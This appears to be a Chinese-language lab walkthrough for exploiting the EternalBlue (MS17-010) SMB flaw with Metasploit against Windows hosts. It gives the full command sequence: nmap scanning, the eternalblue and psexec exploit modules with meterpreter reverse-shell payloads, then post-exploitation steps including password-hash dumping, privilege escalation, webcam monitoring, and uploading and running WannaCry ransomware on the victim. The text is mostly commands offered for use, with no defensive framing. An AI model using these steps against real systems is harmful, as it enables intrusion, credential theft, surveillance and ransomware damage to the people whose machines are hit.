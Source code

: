 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \ 
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010` 定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` \
进入msf> \
`version` \
确保MS \
架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue` \
调用攻击模块 \
`options` \
查看参数,并设置： \
`set RHOST 192.168.43.2` \
设定攻击目标  \
`show payloads` \
查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` \
配置攻击载荷  \
`set LHOST 192.168.43.1` \
设置操作机地址,即kali本机地址 \
`exploit` \
发起攻击,也可以用`run`。出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` \
查看系统信息 \
`webcam_list` \
看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` \
查看路由表 \
`screenshot` \
桌面截图，很卡 \
`shell` \
打开命令行，然后可以ipconfig/whoami/net user \
`ps` \
看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` \
查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` \
32位机的账号 \
`set SMBPass 0` \
32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
